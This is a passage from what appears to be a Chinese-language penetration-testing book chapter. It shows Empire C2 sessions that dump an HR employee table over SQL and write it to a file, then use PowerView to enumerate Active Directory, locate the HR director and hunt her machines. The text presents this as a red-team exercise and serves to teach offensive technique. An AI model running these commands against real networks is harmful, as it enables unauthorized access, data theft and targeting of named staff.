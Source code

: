 头奖！我们现在可以享受浏览这些表格，查找我们喜欢的任何数据：设计师、工资、绩效评估等(在转储整个表之前，最好先获取要转储的相关和感兴趣的列的名称)。
```
select * from hr_master..Employee_GB_Full
```

```
(Empire: HRAgent) > scriptcmd scriptcmd Invoke-SqlCommand -Server
"10.40.40.40" -Database "master" -Query select * from
hr_master..Employee_GB_Full" | out-string
Job started: Debug32_azd0k
empno : 166
ename : SCHMIDT
job : DESIGNER
mgr : 6
hiredate : 12/17/2016 12/:00:00 AM
````

要将数据输出到文件中，我们只需添加PowerShell命令：| output file-append c:\users\svc_ps\appdata\local\out.txt

我们将后续章节中注意安全提取。


### 董事会会议
到目前为止，我们已经实现了名单上的三个目标中的两个。最后一个——潜入并伪装成对董事会成员——可能是最简单的一个，因为我们在公司内部已经有了如此广泛的触角。

为了渗透董事会会议，我们只需要针对一个我们知道参加会议的成员。既然我们是在人力资源窗口领域，那么人力资源总监呢？在Active Directory中快速搜索会显示其详细信息：
```
(Empire: HRAgent) > usemodule usemodule situational_awareness/network/
powerview/get_user
(Empire: get_user) > set Filter description=*HR*
(Empire: get_user) > run
Job started: Debug32_br6of
[…]
description : HR Director
displayname : Elise Jansen
userprincipalname : ejansen@GBHR.CORP
name : Elise Jansen
objectsid : S-1-5-21-1930387874-2808181134-879091260-1117
samaccountname : ejansen
[…]
```

我们可以通过查看域控制器保存的连接日志来跟踪Elise的所有设备：
```
(Empire: HRAgent) > usemodule usemodule situational_awareness/network/
powerview/user_hunter
(Empire: user_hunter) > set UserName ejansen
(Empire: user_hunter) > run
```
![](chap5/chap5-18.jpg)

突然出现两台机器。我们可以同时瞄准这两个目标，但我很好奇是否需要使用两台计算机。Elise一个上面有敏感数据，另一个上面没有？SPHR0098是她的个人笔记本吗？

让我们使用get_computer模块来获取关于它们的数据：
```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/
get_computer
(Empire: get_computer) > set ComputerName SPHR0098
(Empire: get_computer) > set FullData True
(Empire: get_computer) > run
Job started: Debug32_myli4
description : Surface PRO
CN=SPHR0098,CN=Surface,CN=Computers,DC=GBHR,DC=CORP
name : SPHHR0098
[…]
```
